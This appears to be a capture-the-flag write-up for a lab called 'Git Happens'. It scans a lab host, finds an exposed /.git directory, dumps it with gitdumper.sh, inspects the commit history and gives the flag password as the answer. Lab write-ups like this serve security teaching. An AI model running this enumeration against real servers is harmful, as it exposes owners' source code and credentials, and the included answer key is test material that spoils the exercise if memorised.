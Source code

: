 # Git Happens

$IP = 10.10.144.227

## Nmap scan:
Port: 80 open

## Gobuster scan:

```bash
$ gobuster -u "http://10.10.144.227/" -w directory-list-2.3-small.txt

/css (Status: 301)
/.git (Status: 301)
Progress: 2572 / 87666 (2.93%)
```

Since /.git directory is publicly visible, we can pull down the directory with the following repository:
https://github.com/internetwache/GitTools

### Using the dumper script:

```bash
cd GitTools/Dumper/
bash gitdumper.sh http://10.10.144.227/.git gitdir/
```
### After downloading the directory contents

```bash
cd gitdir
git log | grep "commit" | cut -d " " -f2
```

### Output:
```bash
d0b3578a628889f38c0affb1b75457146a4678e5
77aab78e2624ec9400f9ed3f43a6f0c942eeb82d
2eb93ac3534155069a8ef59cb25b9c1971d5d199
d6df4000639981d032f628af2b4d03b8eff31213
d954a99b96ff11c37a558a5d93ce52d0f3702a7d
bc8054d9d95854d278359a432b6d97c27e24061d
e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
395e087334d613d5e423cdf8f7be27196a360459
2f423697bf81fe5956684f66fb6fc6596a1903cc

```
### From the above output we checkout the commit history in the repository:
```bash
git show 395e087334d613d5e423cdf8f7be27196a360459
```
### Output:
<![Output showcasing code snippet](./output.png)>

### Q. Find the Super Secret Password
```
Ans: Th1s_1s_4_L0ng_4nd_S3cur3_P4ssw0rd!
```
